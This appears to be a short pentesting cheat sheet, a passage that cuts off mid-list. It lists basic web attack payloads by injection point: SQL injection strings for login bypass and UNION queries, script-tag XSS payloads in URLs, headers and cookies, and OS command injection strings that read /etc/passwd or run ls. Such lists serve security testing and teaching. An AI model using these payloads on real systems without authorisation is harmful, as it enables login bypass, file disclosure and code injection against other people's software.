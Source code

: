 # 1. SQL Injection (SQLi)
 * Inject payloads in:
    http://example.com/product?id=1

    PayLoad: ```id=1' OR '1'='1```
 
 * Form inputs:
    Login forms (username and password fields):

    PayLoad: ```' OR 1=1 --```

 * Search bars:

    PayLoad: ```' UNION SELECT 1,2,3 --```   

 * Headers: Custom headers (e.g., X-User-Info).

    PayLoad: ```Cookie: user_id=1' OR '1'='1```

 * API endpoints: JSON data in POST requests:   

    PayLoad: ```{"user_id": "1' OR '1'='1"}```

# 2. Cross-Site Scripting (XSS) 

 * Form inputs: [Comment boxes, feedback forms, or search bars.]

    PayLoad: ```<script>alert('XSS');</script>```

 * URL parameters: 
 
    PayLoad: ```http://example.com/page?search=<script>alert('XSS')</script>```

 * Headers:
 
    1. HTTP referer header:

      PayLoad: ```Referer: <script>alert('XSS')</script>```

    2. Cookies:

      PayLoad: ```Cookie: session=<script>alert('XSS')</script>```      

 * File uploads: Upload files with malicious content ```(e.g., SVG with <script> inside)```.

# 3. OS Command Injection
 * Form inputs: Server admin panels (e.g., diagnostic tools)

    PayLoad: ```; cat /etc/passwd;```

 * URL parameters:

    PayLaod: ```http://example.com/scan?ip=127.0.0.1;ls```

 * Headers:

    1. User-Agent header:
